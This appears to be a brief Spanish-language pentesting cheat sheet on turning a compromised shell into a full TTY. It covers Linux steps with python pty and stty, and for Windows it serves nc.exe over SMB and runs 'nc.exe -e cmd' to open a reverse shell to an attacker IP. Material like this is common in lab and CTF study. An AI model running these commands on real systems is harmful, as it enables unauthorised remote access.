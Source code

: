 >`script /dev/null -c bash` || `python -c 'import pty;pty.spawn("/bin/bash")'`
>`ctrl_z`
>`stty raw -echo; fg`
>`reset`
>`xterm`
>`export TERM=xterm`
>`export SHELL=bash`
>`stty rows 43 columns 157`

Cambiar a una full-tty cuando estamos en una máquina Windows:
> En local, montamos un servidor SMB compartiendo nc.exe
> `impacket-smbserver smbFolder $(pwd) -smb2support`
> En local, dejar puerto en escucha con netcat en espera de una reverse shell
> `rlwrap nc -nlvp 443`
> Desde la máquina objetivo, hacer uso del recurso compartido nc.exe y levantar una shell inversa
> `\\10.10.14.20\smbFolder\nc.exe -e cmd 10.10.14.20 443`
